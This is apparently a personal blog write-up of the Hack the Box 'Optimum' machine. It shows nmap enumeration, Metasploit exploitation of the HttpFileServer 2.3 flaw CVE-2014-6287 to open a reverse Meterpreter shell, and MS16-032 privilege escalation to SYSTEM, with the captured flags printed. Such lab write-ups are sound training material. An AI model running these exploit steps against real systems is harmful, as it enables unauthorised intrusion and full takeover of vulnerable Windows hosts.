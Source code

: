 ```yaml
---
title: Optimum, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-03-04-Optimum-hack-the-box-walkthrough/Optimum.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Optimum is an easy level HTB challenge from the HTB archives. This challenge requires initial user access through a remote command execution vulnerability and local privilege escalation"
card: card-2
---
```


Optimum is a easy level retired CTF from Hack the Box. To root this machine, I gained initial access by exploiting a remote command execution vulnerability (CVE-2014-6287) and escalated privileges to root through a local windows privilege escalation vulnerability (CVE-2016-0099).  

## Enumeration

To start, I used nmap to enumerate open services and running ports.  The resulting output revealed the target server was running the HttpFileServer, version 2.3.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/OptimumRETIRED]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.8                                                                                           1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 20:01 EST
Nmap scan report for 10.10.10.8
Host is up (0.026s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.39 ms 10.10.14.1
2   27.77 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```  

## Vulnerability Identification  

Research into the HttpFileServer version 2.3 revealed its vulnerable to CVE-2014-6287, a remote command execution  vulnerability which has several public exploits available. One of these exploits is available in a metasploit module, so I launched metasploit and configured the necessary options.  

```bash
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Using URL: http://0.0.0.0:8081/IfzP0QI2SL
[*] Local IP: http://192.168.232.8:8081/IfzP0QI2SL
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /IfzP0QI2SL
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2021-03-04 20:09:00 -0500

[!] Tried to delete %TEMP%\OMHaX.vbs, unknown result



[*] Server stopped.

meterpreter > 
```   

## Locate User Flag  

Using the meterpreter shell, I located the user flag and read its contents.  

```bash
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-03-11 05:11:20 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```  

## Post Exploitation Enumeration    

The CVE-2014-6287 exploit opened the meterpreter shell as the kostas user. To read the contents of the Admin flag, I would need to escalate to SYSTEM privilege. First, I attempted the `getsystem` meterpreter command, but this failed. I started to gather additional details about the target, starting with the meterpreter `sysinfo` command.  

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```  

Researching for local privilege escalation vulnerabilities specific for Windows 2012 R2 (6.3 Build 9600) revealed CVE-2016-0099. Fortunately, this too has a metasploit module available. I configured the module and launched the exploit.   

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.13:4441 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PykxFdTyo5bVOiBbBCJ1ZoZo9QIdtpa6
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.13:4441 -> 10.10.10.8:49166) at 2021-03-04 20:41:02 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1

meterpreter > shell
```  

## Locate Root Flag  

Using the meterpreter `shell` command, I dropped into the windows cmd shell and searched manually for the root flag.   

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.899.729.920 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>
```